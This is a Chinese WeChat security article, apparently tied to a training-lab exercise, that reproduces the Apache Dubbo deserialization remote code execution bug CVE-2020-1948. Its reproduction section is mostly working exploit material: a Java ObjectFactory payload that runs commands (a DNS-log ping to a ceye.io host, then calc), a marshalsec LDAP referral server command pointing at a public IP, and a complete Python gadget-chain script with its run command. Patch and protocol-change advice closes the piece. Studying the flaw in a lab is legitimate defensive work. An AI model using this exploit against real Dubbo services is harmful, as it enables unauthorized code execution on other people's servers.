 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/8pYHhvTqOLnh73uA5sKrpQ)

![](https://mmbiz.qpic.cn/mmbiz_gif/3RhuVysG9LdRmpz4ibIY8GpicEiabmEOVuDWthuxj2TXBsNCVHu70z5pcUkEHkWCrichUzI2esFfCrwUOpkB24XedQ/640?wx_fmt=gif)

亲爱的, 关注我吧

![](https://mmbiz.qpic.cn/mmbiz_gif/3RhuVysG9LdRmpz4ibIY8GpicEiabmEOVuDWthuxj2TXBsNCVHu70z5pcUkEHkWCrichUzI2esFfCrwUOpkB24XedQ/640?wx_fmt=gif)

**11/18**

本文字数 1524

看完文章之后

留几分钟点击阅读原文看看同款实验

来和我一起阅读吧

```
本文涉及靶场同款知识点练习
CVE-2020-1948 Apache dubbo远程命令执行漏洞 
https://www.hetianlab.com/expc.do?w=exp\_ass&ec=ECID39ef-c0db-4835-b19f-62f9d8d70d55&pk\_campaign=weixin-wemedia
通过该实验了解漏洞产生的原因，掌握基本的漏洞利用及使用方法，并能给出加固方案。
```

**简介**

Dubbo 是阿里巴巴公司开源的一个高性能优秀的服务框架，使得应用可通过高性能的 RPC 实现服务的输出和输入功能，可以和 Spring 框架无缝集成。它提供了三大核心能力：面向接口的远程方法调用，智能容错和负载均衡，以及服务自动注册和发现。

**概述**

2020 年 06 月 23 日， Apache Dubbo 官方发布了 Apache Dubbo 远程代码执行的风险通告，该漏洞编号为 CVE-2020-1948，漏洞等级：高危。

Apache Dubbo 是一款高性能、轻量级的开源 Java RPC 框架，它提供了三大核心能力：面向接口的远程方法调用，智能容错和负载均衡，以及服务自动注册和发现。

Apache Dubbo Provider 存在反序列化漏洞，攻击者可以通过 RPC 请求发送无法识别的服务名称或方法名称以及一些恶意参数有效载荷，当恶意参数被反序列化时，可以造成远程代码执行。

**影响版本**

```
Dubbo 2.7.0 - 2.7.6
   Dubbo 2.6.0 - 2.6.7
   Dubbo 2.5.x （官方不再维护）
```

**环境搭建**

运行环境与编译 exp 环境 jdk 版本均为 8u121，启动测试环境

```
https://github.com/DSO-Lab/defvul/wiki/Apache-Dubbo-CVE\_2020\_1948-Deserialization-Vulnerability
```

启动后会监听 12345 端口

**漏洞复现**

服务指纹：

```
PORT      STATE SERVICE VERSION
12345/tcp open  textui  Alibaba Dubbo remoting telnetd
```

构造 poc，我们这里执行一个 ping 命令来验证是否可以执行命令，新建 calc.java，  

```
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class calc implements ObjectFactory {

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        Runtime.getRuntime().exec("ping test.sr3uwk.ceye.io");
        return null;
    }
}
```

编译 poc

```
javac calc.java
```

将编译好的 poc（calc.class）放到 web 网站目录里，确保漏洞主机可以访问到

使用 marshalsec 项目启动一个 ldap 代理服务，marshalsec 下载

```
https://github.com/RandomRobbieBF/marshalsec-jar/raw/master/marshalsec-0.0.3-SNAPSHOT-all.jar
```

启动 LDAP 代理服务，执行该命令 ldap 服务会监听 8086 端口  

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://139.9.198.30/#calc 8086
```

执行测试脚本，此处测试使用 python 环境为 3.8.0，先安装依赖包  

```
python3 -m pip install dubbo-py
```

脚本内容 (Dubbo.py)：

```
# -\*- coding: utf-8 -\*-

import sys

from dubbo.codec.hessian2 import Decoder,new\_object
from dubbo.client import DubboClient

if len(sys.argv) < 4:
  print('Usage: python {} DUBBO\_HOST DUBBO\_PORT LDAP\_URL'.format(sys.argv\[0\]))
  print('\\nExample:\\n\\n- python {} 1.1.1.1 12345 ldap://1.1.1.6:80/exp'.format(sys.argv\[0\]))
  sys.exit()

client = DubboClient(sys.argv\[1\], int(sys.argv\[2\]))

JdbcRowSetImpl=new\_object(
  'com.sun.rowset.JdbcRowSetImpl',
  dataSource=sys.argv\[3\],
  strMatchColumns=\["foo"\]
  )
JdbcRowSetImplClass=new\_object(
  'java.lang.Class',
  ,
  )
toStringBean=new\_object(
  'com.rometools.rome.feed.impl.ToStringBean',
  beanClass=JdbcRowSetImplClass,
  obj=JdbcRowSetImpl
  )

resp = client.send\_request\_and\_return\_response(
  service\_name='org.apache.dubbo.spring.boot.sample.consumer.DemoService',
  # 此处可以是 $invoke、$invokeSync、$echo 等，通杀 2.7.7 及 CVE 公布的所有版本。
  method\_name='$invoke',
  args=\[toStringBean\])

output = str(resp)
if 'Fail to decode request due to: RpcInvocation' in output:
  print('\[!\] Target maybe not support deserialization.')
elif 'EXCEPTION: Could not complete class com.sun.rowset.JdbcRowSetImpl.toString()' in output:
   print('\[+\] Succeed.')
else:
  print('\[!\] Output:')
  print(output)
  print('\[!\] Target maybe not use dubbo-remoting library.')
```

执行脚本

```
python3 Dubbo.py 192.168.137.173 12345 ldap://139.9.198.30:8086/calc
```

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LclPHVlUpvRtV4U7PUOHMeaq828vBCqZICibjH8SFlujib76ayhlD5apIZy1qmoOvcauSsqhUAJpEEA/640?wx_fmt=png)

dnslog 查看，成功接收到请求

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LclPHVlUpvRtV4U7PUOHMeakNjBNuSXBibvXyM2GL2IbZDBwDB96esXhY3wUkGUIuIFn61BQExMq5g/640?wx_fmt=png)

ldap 服务也可以看到请求转发

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LclPHVlUpvRtV4U7PUOHMeatPicOXiaRIrjxlVpWF05QsicViboxwqCFgAzGFcr0mku6uPnfHicOmkFxDg/640?wx_fmt=png)

弹计算器

```
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class calc implements ObjectFactory {

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        Runtime.getRuntime().exec("calc");
        return null;
    }
}
```

**漏洞修复**

升级 2.7.7 版本，并根据以下链接的方法进行参数校验

```
https://github.com/apache/dubbo/pull/6374/commits/8fcdca112744d2cb98b349225a4aab365af563de
```

更换协议以及反序列化方式。具体更换方法可参考：  

```
http://dubbo.apache.org/zh-cn/docs/user/references/xml/dubbo-protocol.html
```

**参考**  

```
https://github.com/DSO-Lab/defvul/wiki/Apache-Dubbo-CVE\_2020\_1948-Deserialization-Vulnerability
```

**11/18**

欢迎投稿至邮箱：**EDU@antvsion.com**  

有才能的你快来投稿吧！

![](https://mmbiz.qpic.cn/mmbiz_gif/3RhuVysG9LdRmpz4ibIY8GpicEiabmEOVuDH643dgKUQ7JK7bkJibUEk8bImjXrQgvtr4MZpMnfVuw7aT2KRkdFJrw/640?wx_fmt=gif)

快戳 “阅读原文” 做同款实验！